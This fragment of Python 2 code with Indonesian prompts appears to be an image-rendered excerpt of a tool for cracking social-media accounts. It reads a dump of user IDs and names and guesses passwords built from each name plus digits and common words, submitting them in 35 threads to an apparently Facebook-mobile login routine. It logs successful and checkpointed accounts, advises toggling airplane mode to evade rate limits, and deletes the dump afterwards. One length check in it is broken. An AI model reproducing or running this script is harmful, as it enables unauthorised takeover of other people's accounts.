     if ___metode___ in ['1','01']:
        print("\n%s[%s1%s]%s Auto Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Auto Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Auto Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n%s[%s*%s]%s Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Hasil Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Hasil Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(mbasic, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,P))
    elif ___metode___ in ['2','02']:
        print("\n%s[%s1%s]%s Auto Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Auto Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Auto Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n[*] Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Hasil Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Hasil Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']